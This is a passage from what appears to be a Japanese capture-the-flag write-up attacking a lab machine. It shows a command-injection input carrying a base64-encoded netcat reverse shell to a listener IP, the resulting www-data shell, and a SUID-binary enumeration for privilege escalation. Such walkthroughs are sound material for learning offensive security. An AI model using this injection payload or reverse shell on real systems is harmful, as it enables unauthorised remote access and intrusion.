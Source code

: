 ```
hello; echo 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEzLjg1LjI0MyA4ODg4ID4vdG1wL2YK' | base64 -d  | sh
```

成功

```sh
$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.13.85.243] from (UNKNOWN) [10.10.146.232] 51320
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 権限昇格１

SUID

```sh
www-data@bobloblaw-VirtualBox:/home/bob$ find / -perm -u=s -type f -ls 2>/dev/nul
     5139     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   151744    432 -rwsr-xr-x   1 root     root       440416 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   402119     12 -rwsr-xr-x   1 root     root        10232 Apr 11  2017 /usr/lib/x86_64-linux-gnu/ubuntu-app-launch/oom-adjust-setuid-helper
   398962     20 -rwsr-xr-x   1 root     root        18736 Mar 17  2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
     4843     44 -rwsr-xr--   1 root     messagebus    42992 Oct 11  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    20097     92 -rwsr-sr-x   1 root     root          93944 Mar 25  2019 /usr/lib/snapd/snap-confine
     5530     16 -rwsr-xr-x   1 root     root          14328 Oct 21  2016 /usr/lib/policykit-1/polkit-agent-helper-1
     8255    384 -rwsr-xr--   1 root     dip          390888 Jan 29  2016 /usr/sbin/pppd
     1193     40 -rwsr-xr-x   1 root     root          39904 Sep 20  2016 /usr/bin/newgrp
      779     76 -rwsr-xr-x   1 root     root          75304 Sep 20  2016 /usr/bin/gpasswd
     1828     20 -rwsr-xr-x   1 root     root          18448 Mar  9  2017 /usr/bin/traceroute6.iputils
      438     40 -rwsr-xr-x   1 root     root          40432 Sep 20  2016 /usr/bin/chsh
     1375     24 -rwsr-xr-x   1 root     root          22520 Oct 21  2016 /usr/bin/pkexec
      436     72 -rwsr-xr-x   1 root     root          71824 Sep 20  2016 /usr/bin/chfn
     1758    140 -rwsr-xr-x   1 root     root         140944 Jan 13  2017 /usr/bin/sudo
      351     24 -rwsr-xr-x   1 root     root          22528 Mar  9  2017 /usr/bin/arping
      207     20 -rwsrwxr-x   1 bobloblaw bobloblaw     16768 Jul 25  2020 /usr/bin/blogFeedback
     1261     56 -rwsr-xr-x   1 root      root          54256 Sep 20  2016 /usr/bin/passwd
   524394    144 -rwsr-xr-x   1 root      root         146128 Feb  1  2017 /bin/ntfs-3g
   524448     40 -rwsr-xr-x   1 root      root          40128 Sep 20  2016 /bin/su
   524346     32 -rwsr-xr-x   1 root      root          30800 Aug 11  2016 /bin/fusermount
   524383     40 -rwsr-xr-x   1 root      root          38984 Nov 16  2016 /bin/mount
   524420     64 -rwsr-xr-x   1 root      root          64424 Mar  9  2017 /bin/ping
   524469     32 -rwsr-xr-x   1 root      root          30792 Nov 16  2016 /bin/umount
   139449   1408 -rwsr-xr-x   1 root      root        1440808 Jul 10  2020 /opt/VBoxGuestAdditions-6.1.12/bin/VBoxDRMClient
```
